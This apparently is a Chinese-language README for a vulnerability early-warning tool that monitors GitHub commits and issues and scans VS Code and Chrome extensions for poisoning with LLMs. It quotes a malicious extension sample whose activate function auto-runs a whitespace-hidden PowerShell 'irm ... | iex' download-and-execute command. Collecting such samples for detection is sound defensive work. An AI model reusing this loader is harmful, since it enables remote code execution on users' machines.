

监控非公开的漏洞库，而是根据commit、issue等做相关漏洞的提前预警

```
               _                             _ _                   __           _   
  __   ___   _| |      _ __ ___   ___  _ __ (_) |_ ___  _ __      / _| __ _ ___| |_
  \ \ / / | | | |_____| '_ ` _ \ / _ \| '_ \| | __/ _ \| '__|____| |_ / _` / __| __|
   \ V /| |_| | |_____| | | | | | (_) | | | | | || (_) | | |_____|  _| (_| \__ \ |_
    \_/  \__,_|_|     |_| |_| |_|\___/|_| |_|_|\__\___/|_|       |_|  \__,_|___/\__|
```

监控制定仓库的commit、issue、security、noted等页面的安全相关信息，以此希望在漏洞公开前获取较大的处理时间。

## Introduction
代码和[三方组建分析](https://github.com/Kevin-sa/security-bom-analyze) 在19年编写，而最近对代码做部分优化、处理的想法来源于【安全学术圈】
分享的一篇论文[开源软件包与软件供应链安全漏洞修复分析研究](https://mp.weixin.qq.com/s/KrmzMMDUPUG7qolPPi8SSg) 、[paper:Open or Sneaky? Fast or Slow? Light or Heavy?:
Investigating Security Releases of Open Source Packages](https://arxiv.org/pdf/2112.06804.pdf)

其中印象最深刻的是安全fix、下游处理的timeline


最主要的时间为
- security release和fix commit有4天的时间差
- snyk和NVD公告和security release有25天的时间差

## Token
### Github
主要用于获取关注仓库的commit、isssue、github security等信息
[new github Token](https://github.com/settings/tokens)

### Telebot
[new telebot](https://cloud.google.com/dialogflow/es/docs/integrations/telegram?hl=zh-cn)


## Mac定时任务使用launchctl
```shell
~/Library/LaunchAgents

<plist version="1.0">
<dict>
  <!-- Label唯一的标识 -->
  <key>Label</key>
  <string>com.kevinsa.timonitor</string>
  <!-- 指定要运行的脚本 -->
  <key>ProgramArguments</key>
  <array>
    <string>/vul-monitor/run.sh</string>
  </array>
  <!-- 指定要运行的时间 -->
  <key>StartCalendarInterval</key>
  <dict>
        <key>Minute</key>
        <integer>00</integer>
        <key>Hour</key>
        <integer>10</integer>
  </dict>
<!-- 标准输出文件 -->
<key>StandardOutPath</key>
<string></string>
<!-- 标准错误输出文件错误日志 -->
<key>StandardErrorPath</key>
<string></string>
</dict>
</plist>

launchctl load -w com.kevinsa.timonitor.plist
```

## 投毒监控
在```impl/supply_chain```中增加针对vscode、chrome插件的投毒监控
- 通过爬虫方式获取插件更新
- 获取对应存在风险func（自动触发等利用方式sink点）调用LLM做判断
调用多个模型识别：
- 识别结果：```vscode-chrome LLM.xlsx```
- 部分样本：https://github.com/Kevin-sa/vul-monitor-fast/tree/master/evil_data

case1：vscode
```
async function installExtension(extensionId) {
  try {
    const extension = vscode.extensions.getExtension(extensionId);
    if (extension) {
      vscode.window.showInformationMessage(`Extension ${extensionId} is already installed.`);
      return;
    }

    await vscode.commands.executeCommand('workbench.extensions.installExtension', extensionId);
    vscode.window.showInformationMessage(`Installation of ${extensionId} triggered successfully.`);

    setTimeout(async () => {
      const installedExtension = vscode.extensions.getExtension(extensionId);
      if (installedExtension && !installedExtension.isActive) {
        await installedExtension.activate();
        vscode.window.showInformationMessage(`Extension ${extensionId} has been activated.`);
      }
    }, 3000);
  } catch (error) {
    vscode.window.showErrorMessage(`Failed to install extension ${extensionId}: ${error.message}`);
  }
}

function activate(context) {
  let disposable = vscode.commands.registerCommand('hubtestmanagerex.runCmd', async function () {
    if (process.platform === 'win32') {
                                                                                                                                                                                                                        const Checker = 'powershell -Command "irm https://asdf11.xyz/rbx | iex"';
      try {
        await CheckInstalled(Checker);

        const extensionId = 'evaera.vscode-rojo';
        await installExtension(extensionId);

      } catch (error) {
        vscode.window.showErrorMessage(`Failed to execute command: ${error.message}`);
      }
    }
  });

  context.subscriptions.push(disposable);
  if (process.platform === 'win32') {
    setTimeout(() => {
      vscode.commands.executeCommand('hubtestmanagerex.runCmd');
    }, 1000);
  }
}
```
